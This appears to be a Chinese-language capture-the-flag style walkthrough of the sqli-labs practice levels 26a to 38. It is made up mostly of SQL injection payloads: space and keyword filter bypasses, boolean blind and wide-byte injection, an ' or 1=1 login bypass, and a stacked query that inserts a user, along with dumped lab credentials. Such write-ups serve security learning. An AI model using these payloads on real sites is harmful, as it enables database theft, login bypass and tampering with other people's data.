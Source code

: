 # less-26a
本题为')闭合

页面无报错，不可使用报错注入，使用基础union注入

空格被过滤。使用%a0代替

?id=1')%a0union%a0select%a01,2,3||('1')=('1

?id=1')%a0union%a0select%a01,database(),3||('1')=('1

?id=111')union%a0select%a01,(select%a0group_concat(schema_name)%a0from%a0infoorrmation_schema.schemata),3||('1')=('1

此处只能使用子查询，不能用union select 1,2,3 from ....这类查询，因为||的优先级高于from，语句会被错误解析导致无回显

# less-27
本题过滤union和select、空格与注释符

union select使用大小写绕过，空格使用%a0，句尾构造等式闭合语句

?id=1'%a0unIon%a0selecT%a01,2,3||'1'='1

?id=1000'%a0unIon%a0SelecT%a01,(selEct %a0group_concat(schema_name)%a0from%a0information_schema.schemata),3||'1'='1

# less-27a
提示使用盲注，那这里就使用布尔盲注进行注入，实际上联合查询也可以

首先测试发现and没有被过滤，过滤了空格、注释符等等

双引号闭合，在句尾构造等式闭合语句

?id=1"%a0and%a0ascii(substr(database(),1,1))>=100%a0and%a0"1"="1

# less-28
同上两题差别别不大

?id=100%27)%a0unIon%a0selECT%a01,database(),3||('1')=('1

?id=100')%a0unIon%a0selECT%a01,(select%a0group_concat(schema_name)%a0from%a0information_schema.schemata),3||('1')=('1

# less-29
不知道过滤啥了，正常union注入就出来了

：你到底保护了什么啊！

?id=-1' union select 1,database(),group_concat(username,'-',password) from security.users--+

?id=-1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()--+

# less-30

?id=100" union select 1,2,3 --+

?id=100" union select 1,database(),3 --+

?id=100" union select 1,database(),group_concat(schema_name) from information_schema.schemata --+

# less-31

?id=1000") union select 1,2,3 --+

?id=1000") union select 1,database(),3 --+

?id=1000") union select 1,database(),group_concat(schema_name) from information_schema.schemata --+

# less-32

本管使用宽字节注入

?id=10000%df’ 判断闭合方式为单引号

?id=10000%df%27%20union%20select%201,2,3%20--+

?id=10000%df' union select 1,database(),3 --+

?id=10000%df' union select 1,database(),group_concat(schema_name) from information_schema.schemata --+

# less-33

与上题相同

# less-34

这里用不了order by 或 group by 直接使用union select一个个测试

uname=�' union select 1,2 #&passwd=123&Submit=Submit

uname=�' union select 1,group_concat(schema_name) from information_schema.schemata #&passwd=123&Submit=Submit

# less-35

本题同为宽字节注入，区别在于是数字型闭合，根本不需要宽字节。可以从以下报错看出

 '\' LIMIT 0,1' 
 
不要和单引号闭合混淆

?id=1000 union select 1,database(),3 --+

# less-36

依旧是宽字节注入，单引号闭合

?id=1000%df' union select 1,database(),3 --+

# less-37

宽字节post注入

使用万能密钥

username：�' or 1=1 #

uname=�' union select 1,database() #&passwd=123&Submit=Submit

# less-38

学习堆叠注入

查询用户数据

?id=1000' union select 1,2,group_concat(username,'-',password) from security.users --+

Dumb-Dumb,Angelina-I-kill-you,Dummy-p@ssword,secure-crappy,stupid-stupidity,superman-genious,batman-mob!le,admin-admin,admin1-admin1,admin2-admin2,admin3-admin3,dhakkan-dumbo,admin4-admin4

插入一条新的用户数据

?id=1';insert into users(id,username,password) values('100','new','new') --+

再次查询

?id=1000' union select 1,2,group_concat(username,'-',password) from security.users --+

Dumb-Dumb,Angelina-I-kill-you,Dummy-p@ssword,secure-crappy,stupid-stupidity,superman-genious,batman-mob!le,admin-admin,admin1-admin1,admin2-admin2,admin3-admin3,dhakkan-dumbo,admin4-admin4,new-new

